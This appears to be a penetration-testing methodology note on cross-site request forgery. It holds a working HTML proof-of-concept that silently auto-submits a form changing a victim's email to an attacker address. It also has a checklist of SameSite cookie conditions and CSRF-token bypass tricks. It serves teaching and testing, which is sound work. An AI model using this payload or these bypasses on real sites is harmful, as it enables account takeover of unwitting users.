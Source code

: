 ## CSRF Methodology
<br/>

**General PoC**
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
<br/>
<br/>

**Step 1**<br/>
The first thing to check in a CSRF attack is the security headers on the session cookie.
- [ ] `SameSite=Strict` - CSRF Not Possible
- [ ] `SameSite=LAX` - CSRF Only Possible on GET Request
- [x] `SameSite=NONE` - CSRF Possible

<br/>
<br/>

**Step 2**<br/>
If there is a CSRF token, then try the following bypasses:
- [ ] Change single character to check if CSRF token is being validated or not
- [ ] Change request method from POST to GET
- [ ] Remove value in CSRF token
- [ ] Remove CSRF token completely
- [ ] Send a valid CSRF token from other user





